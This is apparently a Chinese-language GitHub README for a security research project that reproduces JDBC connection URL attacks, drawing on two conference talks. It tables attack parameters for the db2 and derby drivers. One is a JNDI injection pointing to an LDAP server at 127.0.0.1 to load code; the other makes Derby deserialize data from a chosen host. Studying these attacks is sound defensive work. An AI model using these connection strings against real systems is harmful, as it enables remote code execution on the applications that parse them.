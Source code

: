 # JDBC Connection URL Attack

No one knows JDBC Connection URL like me.



## 前言

在 JDBC Connection URL 可控的情况下，攻击者可以进行什么样的攻击？

议题最开始在 BlackHat Europe 2019 上由 Back2Zero 团队给出演讲，后在 HITB SECCONF SIN-2021 上由 Litch1 & pyn3rd 进行了拓展和延伸。

以下为两次分享的 PPT 地址：

https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf

https://conference.hitb.org/hitbsecconf2021sin/materials/D1T2%20-%20Make%20JDBC%20Attacks%20Brilliant%20Again%20-%20Xu%20Yuanzhen%20&%20Chen%20Hongkun.pdf

学习记录文章：https://su18.org/posts/jdbc-connection-url-attack/

文章是对上面两篇演讲的学习和记录，在漏洞复现调试基础上查看、分析了一些关键的触发点和 sink 点，并在分享者视角之外提出了一些自己的看法。

本项目是漏洞复现和测试代码，已全部经过测试。欢迎下载学习和调试。



## 项目内容

本项目共包含 6 中常见的数据库链接项目的攻击方式（db2/derby/h2/modeshape/mysql/sqlite）。



### db2

| 参数     | 值                                                           |
| -------- | ------------------------------------------------------------ |
| 驱动名称 | `com.ibm.db2.jcc.DB2Driver`                                  |
| 攻击向量 | `clientRerouteServerListJNDIName`                            |
| 连接参数 | `:clientRerouteServerListJNDIName=ldap://127.0.0.1:23457/Command8;` |
| 备注     | `clientRerouteServerListJNDIName` 参数触发 JNDI 查询         |



### derby

| 参数     | 值                                                           |
| -------- | ------------------------------------------------------------ |
| 驱动名称 | `org.apache.derby.jdbc.EmbeddedDriver`                       |
| 攻击向量 | `slaveHost`                                                  |
| 连接参数 | `startMaster=true;slaveHost=127.0.0.1`                       |
| 备注     | `slaveHost` 参数触发与 slave server 的连接会从 slave 读取流并反序列化 |
